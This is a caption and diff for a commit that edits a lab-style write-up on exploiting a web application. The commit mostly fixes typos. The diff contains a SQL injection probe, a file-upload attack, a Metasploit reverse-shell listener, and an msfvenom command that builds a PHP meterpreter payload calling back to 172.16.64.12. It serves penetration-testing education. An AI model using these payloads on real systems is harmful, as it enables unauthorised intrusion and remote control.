

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from _posts/2021-02-13-exploiting-webapplications.markdown, in a window 1280 px wide and 1400 px high, scrolled down 14258 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; before the commit the page ends 15581 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-02-13-exploiting-webapplications.markdown

````diff
--- a/_posts/2021-02-13-exploiting-webapplications.markdown
+++ b/_posts/2021-02-13-exploiting-webapplications.markdown
@@ -541,7 +541,7 @@ And get to this site here:
 Let's then further check for SQL vulnerabilities adding id=1' or 's'='s
 
 
-<img src="/assets/images/12.png" height="100%" width="100%">
+<img src="/assets/images/sqlvuln92.png" height="100%" width="100%">
 
 Great!
 
@@ -646,23 +646,23 @@ Let's modify in Burp and use http://75ajvxi36vchsv584es1.foocorp.io/app/upload.p
 <br /><br />
 </div></center>
 <hr /><br />
-<center>&copy; FooCORP 2021</center>
+<center>FooCORP 2021</center>
 <body></html>
 ```
 
 
-Now, let's upload a simple php file named php.php
+Now, let's upload a simple php file that we name php.php
 ```php
 <?
-phpphpinfo();
+phpinfo();
 ?>
 ```
 
 
 The file is stored and accessible on /app/upload/
-Ok, since this works we can now set up a listener, create a meterpreter php file with msfvenom and upload the meterpreter php file to get a shell.
+Ok, since this works we can now set up a listener with metasploit, create a meterpreter php file with msfvenom and upload the meterpreter php file to get a shell.
 
-listener:
+Metasploit listener:
 ```bash
 msf6 > use exploit/multi/handler
 msf6 exploit(multi/handler) > set lhost 172.16.64.12
@@ -673,19 +673,20 @@ msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
 payload => php/meterpreter_reverse_tcp
 msf6 exploit(multi/handler) > run
 ```
-create the meterpreter php file
+Remember tha we need to run metasploit as root if we want to listen on ports in the range 1-1024.
+Ok, let's create the meterpreter php file
 
 ```bash
-msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12lport=443 -o shell.php
+msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php
 ```
 
 We can upload shell.php the same way as php.php
 
 
-Instantly a meterpreter terminal opens, enter:
+Instantly a meterpreter terminal opens, here we enter:
 
 ```bash
 shell
 bash -i
 ```
-surf the directories and find the last flag!
+And that's, from here we simply navigate the directories and find the missing flag!
````
